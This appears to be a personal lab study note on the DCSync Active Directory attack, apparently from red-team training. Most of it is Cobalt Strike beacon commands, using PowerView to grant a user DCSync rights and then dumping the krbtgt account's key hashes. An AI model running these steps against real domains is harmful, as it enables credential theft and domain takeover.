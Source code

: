 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[DCSync]]  
___

## Description:  

DCSync is a technique which replicates the MS-DRSR protocol to replicate AD information, including password hashes. Under normal circumstances, this is only ever performed by (and between) Domain Controllers.


`Add-DomainObjectAcl` from PowerView can be used to add a new ACL to a domain object. If we have access to a domain admin account, we can grant dcsync rights to any principal in the domain (a user, group or even computer).

```
beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Add-DomainObjectAcl -TargetIdentity "DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights DCSync
```

Now do a DCsysnc through cobalt strike
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

[...snip...]

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
